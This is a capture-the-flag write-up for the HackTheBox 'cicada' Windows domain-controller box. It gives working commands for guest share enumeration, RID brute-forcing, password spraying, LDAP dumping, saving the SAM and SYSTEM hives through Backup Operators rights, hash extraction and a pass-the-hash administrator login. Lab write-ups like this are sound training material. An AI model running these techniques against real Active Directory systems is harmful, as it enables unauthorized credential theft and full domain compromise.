


## Introduction
------------------------------------------------------------------------------------------
[cicada](https://app.hackthebox.com/machines/627) is an easy-rated Windows box from HackTheBox. The box is a domain controller and is fairly straightforward. The foothold involves abusing the guest account to enumerate users and shares. In the HR share, we find a password that can be used for password spraying on the accounts enumerated earlier. Using a valid pair of credentials, we enumerate through LDAP and find another password in the description attribute of an account. The newly discovered user provides access to the DEV share, where a backup script contains the credentials for the david.orelious user. The user david.orelious is a member of two major groups: the Remote Management Users group and the Backup Operators group. The privilege escalation involves abusing the rights of the Backup Operators group to gain access to the SAM database of the domain controller, ultimately leading to full system compromise.

------------------------------------------------------------------------------------------

## Enumeration
We start by a full scan to discover all tcp opened ports... 
### All Open Ports
```bash
rustscan -a 10.129.111.126
```
### Services Scanning
```bash
nmap -p... -sC -sV -v -oN cicada.full 10.129.111.126
```
```text
# Nmap 7.94SVN scan initiated Sun Sep 29 11:17:19 2024 as: nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,63001 -sC -sV -v -oN cicada.full 10.129.111.126
Nmap scan report for cicada.htb (10.129.111.126)
Host is up (0.047s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-09-29 17:17:26Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Issuer: commonName=CICADA-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-22T20:24:16
| Not valid after:  2025-08-22T20:24:16
| MD5:   9ec5:1a23:40ef:b5b8:3d2c:39d8:447d:db65
|_SHA-1: 2c93:6d7b:cfd8:11b9:9f71:1a5a:155d:88d3:4a52:157a
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Issuer: commonName=CICADA-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-22T20:24:16
| Not valid after:  2025-08-22T20:24:16
| MD5:   9ec5:1a23:40ef:b5b8:3d2c:39d8:447d:db65
|_SHA-1: 2c93:6d7b:cfd8:11b9:9f71:1a5a:155d:88d3:4a52:157a
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Issuer: commonName=CICADA-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-22T20:24:16
| Not valid after:  2025-08-22T20:24:16
| MD5:   9ec5:1a23:40ef:b5b8:3d2c:39d8:447d:db65
|_SHA-1: 2c93:6d7b:cfd8:11b9:9f71:1a5a:155d:88d3:4a52:157a
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Issuer: commonName=CICADA-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-08-22T20:24:16
| Not valid after:  2025-08-22T20:24:16
| MD5:   9ec5:1a23:40ef:b5b8:3d2c:39d8:447d:db65
|_SHA-1: 2c93:6d7b:cfd8:11b9:9f71:1a5a:155d:88d3:4a52:157a
|_ssl-date: TLS randomness does not represent time
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
63001/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-09-29T17:18:17
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 7h00m00s

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep 29 11:18:56 2024 -- 1 IP address (1 host up) scanned in 97.07 seconds
```
### Hostname
```bash
echo '10.129.111.126  cicada.htb'  >> /etc/hosts
```
## Foothold
We can confirm that the guest account is enabled in active directory domain...using the guest accont we enumerate shares and access publicly available ones
```bash
nxc smb 10.129.111.126 -u guest -p '' --shares 
```

```bash
smbclient \\\\10.129.111.126\\HR -U guest 
```


RID Cycling Attack...
```bash
nxc smb cicada.htb -u guest -p '' --rid-brute 10000 
```


```bash
nxc smb 10.129.111.126 -u users.txt -p 'fakepassword' 
```

```bash
ldapdomaindump  'ldap://cicada.htb' -u 'cicada.htb\michael.wrightson' -p 'fakepasswod' -o lootme
```


```sh
nxc smb 10.129.111.126 -u david.orelious -p 'fakapassword'
```


## Privilege Escalation
Emily is member of Remote Management Users and Backup Operators...We can connect over winrm using evil-winrm tool. (By the time writting this i've notice i didn't make when i was pwning the box...)
```bash
evil-winrm -i cicada.htb -u emily.oscars -p 'fakepassword'
```
Since emily.oscars  user is member of the Backup Operators group we can take a copy of the SAM and SYSTEM hives using the reg.exe tool. after using the pypykatz tool we can decrypt the sam database and extract ntlm hashes.
```powershell
reg.exe save HKLM\sam C:\Users\emily.oscars.CICADA\Desktop\sam.hive
reg.exe save HKLM\system C:\Users\emily.oscars.CICADA\Desktop\system.hive
```
pypykatz...
```bash
pypykatz registry --sam sam.hive system.hive
```

```bash
evil-winrm -i cicada.htb -u administrator -H 2b87e7c93a3e8a***************
```


## Kill Chain Summary
1. Abuse the guest account to enumerate shares and users.
2. Use the password found in the HR share and perform a password sprying attack.
3. Performa Ldap enumeration and discover a password in users description.
4. Enumerate Shares again with the new creds and discover harcoded credentials in a backup script.
5. Abuse the Backup Operators group rights.

## References
[rid cycling attack](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/rid-cycling)<br>
[backup operators group abuse](https://www.bordergate.co.uk/backup-operator-privilege-escalation/)<br>